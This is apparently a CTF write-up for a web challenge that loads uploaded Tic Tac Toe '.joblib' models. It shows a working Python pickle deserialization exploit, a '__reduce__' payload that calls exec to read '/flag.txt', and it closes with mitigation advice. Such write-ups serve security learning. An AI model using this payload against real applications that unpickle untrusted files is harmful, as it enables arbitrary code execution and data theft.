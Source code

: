 # Tic Tac Toe Web Challenge Write-Up  
**By:** Monish Polimetla  
**Category:** Web  
**Difficulty:** Medium  
**Challenge Type:** CTF Challenge  

---

## Description

This challenge provided a simple web interface to upload a `.joblib` file representing a Tic Tac Toe AI. The uploaded model would play a complete game against the server’s AI. The game logs and final outcome were displayed after uploading the model.

At first, it seems like a machine learning challenge where the goal is to beat the AI. However, with a closer look at the backend code, it becomes clear that the real vulnerability lies in how the server loads and executes the uploaded model.

---

## Goal

Abuse Python's insecure deserialization via `joblib.load()` to extract the contents of `/flag.txt` without playing the game at all.

---

## Web Interface Behavior

From the instructions on the challenge page:

- Your model will receive a list of 9 integers representing the game board:
  - `0` = empty
  - `1` = your moves
  - `2` = opponent's moves

- The model must return a single integer from `0` to `8`, indicating your move.

Behind the scenes, the application does the following:

- Uploads the `.joblib` file  
- Loads the model using `joblib.load()`  
- Plays a full game turn-by-turn  
- Displays the game result or model errors on the page  

---

## Code Behavior

From the source code in `app.py`, the critical vulnerability is here:

```python
user_model = joblib.load(path)

```
## Payload Construction

### Step 1: Create the Malicious Class

```python
class PickleExploit:
    def __reduce__(self):
        return (exec, ("raise RuntimeError(open('/flag.txt').read())",))
```

- `__reduce__()` defines how an object is serialized and deserialized.
- We return an `exec()` call that throws the contents of the flag as an error.

---

### Step 2: Save the Object as a `.joblib` File

```python
import pickle

with open("pickle_exploit.joblib", "wb") as f:
    pickle.dump(PickleExploit(), f)
```

- This file will now run the `exec(...)` command as soon as the server loads it.

---

## Exploit Execution

We upload `pickle_exploit.joblib` to the challenge site.

The result:

- The server calls `joblib.load()`
- `pickle` runs our `__reduce__()` method
- A `RuntimeError` is thrown with the contents of `/flag.txt`
- The Flask web app catches the error and displays it as:

```
Model error: SVUSCG{04a0bedb1cf32545562ddb58e00e104f}
```

---

## Why It Worked

- `joblib.load()` = `pickle.load()` under the hood
- `pickle.load()` blindly executes instructions returned by `__reduce__()`
- The app prints exception messages back to the user
- The flag was stored in a readable file at `/flag.txt`

This chain made it possible to exfiltrate the flag using only Python deserialization.

---

## Mitigation Advice

This is a textbook example of insecure deserialization. Here’s what should have been done differently:

### What Went Wrong

- Untrusted user input was deserialized without sandboxing.
- `pickle` was used in a production-facing environment.
- Error messages were printed directly to the frontend.

### How to Fix It

- Never use `pickle`, `joblib`, or `dill` to load untrusted content.
- Use safe formats (e.g., ONNX, PMML, JSON) for model uploads.
- Run untrusted code inside an isolated Docker or Firejail sandbox.
- Never show raw exceptions to users — log them privately instead.

---
